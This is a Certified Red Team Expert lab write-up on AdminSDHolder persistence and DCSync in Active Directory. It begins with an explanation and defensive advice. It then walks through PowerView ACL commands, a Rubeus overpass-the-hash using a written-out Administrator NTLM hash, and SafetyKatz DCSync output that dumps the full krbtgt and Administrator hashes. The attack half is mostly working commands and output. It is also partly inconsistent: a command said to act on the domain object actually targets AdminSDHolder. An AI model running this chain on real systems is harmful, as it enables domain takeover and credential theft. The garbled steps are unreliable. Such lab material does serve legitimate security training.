






CRTE - Certified Red Team Expert
Domain Persistence - AdminSDHolder attack
The AdminSDHolder attack is a method used to achieve domain persistence by modifying the Access Control List (ACL) of the AdminSDHolder object in Active Directory. This attack leverages the way Active Directory enforces permissions on highly privileged groups and users, allowing an attacker to establish long-term unauthorized access with minimal detection.
To understand why this attack is so powerful, we must first recognize the role of AdminSDHolder in Active Directory. It is a special container located under CN=AdminSDHolder,CN=System,DC=domain,DC=com and serves as a template for permissions applied to protected groups and their members. These protected groups include Domain Admins, Enterprise Admins, Schema Admins, Administrators, and other high-privilege groups. Every 60 minutes (by default), a background process called Security Descriptor Propagation (SDProp) updates the permissions of these groups and their members, enforcing the ACL set on the AdminSDHolder object. This means that even if someone manually modifies permissions on a Domain Admins member, the next SDProp cycle will overwrite those changes with whatever is defined in the AdminSDHolder ACL.
As attackers, we can exploit this behavior by modifying the ACL of AdminSDHolder itself. Instead of directly adding ourselves to the Domain Admins group, an action that defenders can easily detect, we modify the AdminSDHolder ACL to grant our user account or a backdoor account Full Control or GenericAll permissions over privileged groups. Once this change is made, the SDProp process will automatically apply our malicious ACL to all protected accounts every hour, ensuring persistent and stealthy access.
Executing an AdminSDHolder attack requires us to first obtain sufficient privileges to modify the ACL. This typically means having Domain Admin rights or equivalent privileges that allow modifying ACLs in Active Directory. We then use PowerShell (Set-ACL), Mimikatz, or Active Directory editing tools to inject our user into the ACL of AdminSDHolder with Full Control or GenericAll permissions. Once this is in place, SDProp ensures that our privileges propagate automatically, meaning that even if defenders manually remove our permissions from a privileged group, the SDProp process will restore them within 60 minutes.
One of the most significant aspects of this attack is stealth. Since we are not modifying individual user permissions but rather the template that governs those permissions, many traditional security monitoring tools fail to detect the initial change. By default, Active Directory does not generate security logs when the AdminSDHolder ACL is modified, making this attack difficult to spot unless explicit monitoring is in place. This is what makes the attack so effective, it ensures that even if defenders perform periodic audits of privileged groups, our access is silently reinstated every hour.
Beyond simple privilege persistence, the AdminSDHolder attack opens the door for further abuse. Once we have inherited Full Control or GenericAll permissions over high-privilege accounts, we can:
- Reset passwords for domain admins, gaining complete control over their accounts.
- Add or remove users from privileged groups, further escalating privileges or disrupting administrative control.
- Perform Kerberoasting attacks against protected accounts with Service Principal Names (SPNs).
- Leverage Resource-Based Constrained Delegation (RBCD) to escalate control over additional resources.
- Modify user objects to inject shadow credentials, allowing authentication without passwords.
However, there are limitations. While we can control privileged groups, AdminSDHolder ACL modifications do not directly grant us the ability to perform a DCSync attack. To execute DCSync, which allows dumping NTLM password hashes from the domain, we must modify the ACL of the domain object itself (DC=domain,DC=com). This action is typically logged and more likely to be detected by Microsoft Defender for Identity (MDI).
When comparing AdminSDHolder attacks to directly modifying the ACL of protected groups, the key difference is persistence. If we simply modify the Domain Admins ACL, SDProp will reset it to match AdminSDHolder within an hour, nullifying our changes. But if we modify AdminSDHolder itself, our malicious permissions are automatically reapplied every hour. This is why AdminSDHolder abuse is far more effective for long-term access than simply editing group ACLs directly.
Defenders can mitigate this attack by monitoring ACL changes on AdminSDHolder, which is not logged by default. Security teams must enable auditing for object modifications (Event ID 4662) and track changes to AdminSDHolder’s permissions. Additionally, organizations should limit the use of Domain Admin accounts, delegate administrative tasks to least-privilege roles, and ensure that AdminSDHolder ACLs are regularly reviewed and reset to their secure defaults.
In summary, the AdminSDHolder attack is a powerful method for maintaining persistent and stealthy control over privileged accounts in Active Directory. By modifying the template that governs security permissions for high-privilege groups, we ensure that our unauthorized access is automatically reapplied every hour, making it extremely difficult to remove. Unlike directly adding ourselves to Domain Admins, which is obvious and easy to revert, modifying AdminSDHolder’s ACL ensures that we retain control even if defenders attempt to remove our permissions. This attack exemplifies how Active Directory’s built-in security mechanisms can be turned against it, reinforcing why understanding and monitoring ACL changes is critical in defending against advanced persistence techniques.
Replication Rights Enumeration with PowerView
Assuming that we do have Domain Admin rights or equivalent privileges that allow modifying ACLs in Active Directory and we want for some reason add to our user the Replication Rights, allowing us for DCSync attack. Let’s start by checking if our current user (studentuser163) has Replication Right(DCSync) and we will use PowerView for that enumeration. We should bypass our PowerShell defense mechanisms first and I’ll be using InvisiShell.

Let’s now Invoke PowerView and enumerate Replication Rights to our current studentuser163.
Import-Module .\PowerView.ps1Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser163"}

Since studentuser163 does not have Replication Rights, we do not have DCSync capabilities. However, we will check if we can escalate privileges another way by looking at AdminSDHolder ACLs. If we do not have modification rights there, we will use our compromised Domain Admin to modify AdminSDHolder and persist.
Let’s start by elevating a session to our high privileged user, in this our case the domain Admin by doing a Pass OverPass the Hash.
User : Administrator
NTLM : 43b70d2d979805f419e02882997f8f3f
ArgSplit.bat

Let’s now run Rubeus in the memory using Loader.
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args "%Pwn%" /user:administrator /rc4:43b70d2d979805f419e02882997f8f3f /opsec /force /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

As we can see above, we were able to spawn a new CMD process with Domain Admin privileges.
Granting Replication Rights with PowerView
The next command will grant DCSync privileges to studentuser163 over the domain object (dc=us,dc=techcorp,dc=local).
Add-DomainObjectAcl -TargetIdentity "cn=AdminSDHolder,cn=System,dc=us,dc=techcorp,dc=local" -PrincipalIdentity studentuser163 -Rights DCSync -PrincipalDomain us.techcorp.local -TargetDomain us.techcorp.local -Verbose

If we double check it again, now our user studentuser163 now has Replication Rights.
Get-DomainObjectAcl -SearchBase "dc=us,dc=techcorp,dc=local" -SearchScope Base -ResolveGUIDs | ?{($_.ObjectAceType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match "studentuser163"}

Now that our studenuser163 have Replication Rights, we can now use it for DCSync attack using studentuser163.
Let’s encode our SatetyKatz command using ArgSplit.bat file and do the copy/paste into our current CMD session.
ArgSplit.bat

Let’s now run SafetyKatz into the memory using our dotnet Loader and dump the KRGTGT and Administrator’s hashes.
`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:us\krbtgt" "exit”bash
mimikatz(commandline) # lsadump::dcsync /user:us\krbtgt
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'us\krbtgt' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : krbtgt
SAM ACCOUNT
SAM Username : krbtgt
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration :
Password last change : 7/4/2019 11:49:17 PM
Object Security ID : S-1-5-21-210670787-2521448726-163245708-502
Object Relative ID : 502
Credentials:
Hash NTLM: b0975ae49f441adc6b024ad238935af5
ntlm- 0: b0975ae49f441adc6b024ad238935af5
lm - 0: d765cfb668ed3b1f510b8c3861447173
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 819a7c8674e0302cbeec32f3f7b226c9
Primary:Kerberos-Newer-Keys
Default Salt : US.TECHCORP.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac (4096) : 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5
aes128_hmac (4096) : 1bae2a6639bb33bf720e2d50807bf2c1
des_cbc_md5 (4096) : 923158b519f7a454
Primary:Kerberos
Default Salt : US.TECHCORP.LOCALkrbtgt
Credentials
des_cbc_md5 : 923158b519f7a454
Packages
NTLM-Strong-NTOWF
Primary:WDigest
01 a1bdf6146e4b13c939093eb2d72416c9
02 cd864c0d5369adad4fc59a469a2d4d17
03 2123179b0ab5c0e37943e346ef1f9d9a
04 a1bdf6146e4b13c939093eb2d72416c9
05 cd864c0d5369adad4fc59a469a2d4d17
06 3449e5615d5a09bbc2802cefa8e4f9d4
07 a1bdf6146e4b13c939093eb2d72416c9
08 296114c8d353f7435b5c3ac112523ba4
09 296114c8d353f7435b5c3ac112523ba4
10 5d504fb94f1bcca78bd048de9dad69e4
11 142c7fde1e3cb590f54e12bbfdecfbe4
12 296114c8d353f7435b5c3ac112523ba4
13 13db8df6b262a6013f78b082a72add2c
14 142c7fde1e3cb590f54e12bbfdecfbe4
15 b024bdda9bdb86af00c3b2503c3bf620
16 b024bdda9bdb86af00c3b2503c3bf620
17 91600843c8dadc79e72a753649a05d75
18 423730024cfbbc450961f67008a128a5
19 d71f700d63fa4510477342b9dc3f3cc7
20 bad6b9122f71f8cfd7ea556374d381d9
21 52c6560f77613d0dcf460476da445d93
22 52c6560f77613d0dcf460476da445d93
23 23504d9f1325c5cf68892348f26e77d7
24 8228bd623c788b638fce1368c6b3ef44
25 8228bd623c788b638fce1368c6b3ef44
26 a2659c1d9fa797075b1fabdee926569b
27 784f5fbc5276dcc8f88bbcdfa27b65d8
28 2ac6c7c1c24262b424f85e1ab762f1d3
29 4bef285b22fd87f4868be352958dcb9e
mimikatz(commandline) # exit
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe -args "%Pwn% /user:us\administrator" "exit"bash
mimikatz(commandline) # lsadump::dcsync /user:us\administrator
[DC] 'us.techcorp.local' will be the domain
[DC] 'US-DC.us.techcorp.local' will be the DC server
[DC] 'us\administrator' will be the user account
[rpc] Service : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
Object RDN : Administrator
SAM ACCOUNT
SAM Username : Administrator
Account Type : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration :
Password last change : 7/4/2019 11:42:09 PM
Object Security ID : S-1-5-21-210670787-2521448726-163245708-500
Object Relative ID : 500
Credentials:
Hash NTLM: 43b70d2d979805f419e02882997f8f3f
Supplemental Credentials:
Primary:NTLM-Strong-NTOWF
Random Value : 1c1f41c9f04c3dc43217246d294c2840
Primary:Kerberos-Newer-Keys
Default Salt : US-DCAdministrator
Default Iterations : 4096
Credentials
aes256_hmac (4096) : db7bd8e34fada016eb0e292816040a1bf4eeb25cd3843e041d0278d30dc1b335
aes128_hmac (4096) : c9ae4aae409161db4cbb534f58457944
des_cbc_md5 (4096) : 1c9be93e161643fd
OldCredentials
aes256_hmac (4096) : d6330c70734d60d7b6966dc52e30e22603c7621a62b6bd148f3eaa603ec3d029
aes128_hmac (4096) : b4772e2e2020fa438b42b427faf98087
des_cbc_md5 (4096) : ce94854625ad6eab
OlderCredentials
aes256_hmac (4096) : c1001cf0def7face7454f9db13d9b758ddcb284e23025f7fbc6715e03a7f5933
aes128_hmac (4096) : c9807c29c1ab7e0e9396944ed9ce19a8
des_cbc_md5 (4096) : 62401f4c7ce3b668
Packages
NTLM-Strong-NTOWF
Primary:Kerberos
Default Salt : US-DCAdministrator
Credentials
des_cbc_md5 : 1c9be93e161643fd
OldCredentials
des_cbc_md5 : ce94854625ad6eab
mimikatz(commandline) # exit
`